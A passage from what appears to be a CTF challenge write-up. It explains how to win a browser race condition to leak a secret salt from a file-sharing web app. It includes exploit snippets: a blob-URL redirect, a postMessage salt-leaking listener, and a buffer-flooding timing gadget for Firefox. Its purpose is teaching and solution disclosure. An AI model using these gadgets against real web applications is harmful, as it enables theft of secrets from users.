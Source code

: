 ```html
<script>
    setTimeout(()=>{
      location = URL.createObjectURL(new Blob([document.documentElement.innerHTML], {type: 'text/html'}))
    }, 150);
</script>
```

After the file above is shared, The following salt-leaking file is shared with the admin:

```html
<script>onmessage=e=>leak(e.data.salt)</script>
```

What needs to happen to win the race is:

1.  Share the redirect file with admin: `shareFile(redirectFile, cached=true)`
2.  Wait for the `redirectFile` to fully render.
3.  Share the salt leaking file with admin: `shareFile(saltFile, cached=false)`
4.  Slow down the challenge's process via a chosen gadget.
5.  The `onload` from the `redirectFile` is scheduled just before the `saltFile` is rendered.
6.  The `saltFile` gets fully rendered (which schedules `Reloading iframe`).
7.  The process becomes unblocked.
8.  The application receives the `onload` event and sends the `salt`.
9.  Quite instantly, the application recveives `Reloading iframe` message and removes the listener.

In principle, this looks reasonable and not too hard to implement. However, in practice, my exploit didn't work all the time, as I had tuned the timings suboptimally and taken the lazy path. I was pretty sure this could be coded better than my exploit, and the teams that solved the challenge proved this to be the case, leaking the salt very consistently.

You can read the full exploit in [exploit-chrome.html](./solution/exploit-chrome.html).

See exploit in action:

![demo](./writeup-images/demo.gif)

### Race Condition in Firefox

Winning the race in Firefox was easier. For some reason, if the challenge's process is slowed down, the `Reloading iframe` event is executed after the `onload` listener which means the only thing teams had to figure out was how to slow down the process.

This snippet won the race with almost 100% accuracy.

```javascript
    const buff = new Uint8Array(3e7);
    shareFile(blobSalt, 'blobsalt');
    // delay around 2.5s
    appWin.postMessage({ type: buff  }, '*', [buff.buffer])

    window.interval = setInterval(() => {
      const buff = new Uint8Array(2e7);
      appWin.postMessage({ type: buff  }, '*', [buff.buffer])
    }, 100);

    setTimeout(()=>{
      clearInterval(window.interval);
    }, 3_000)
```

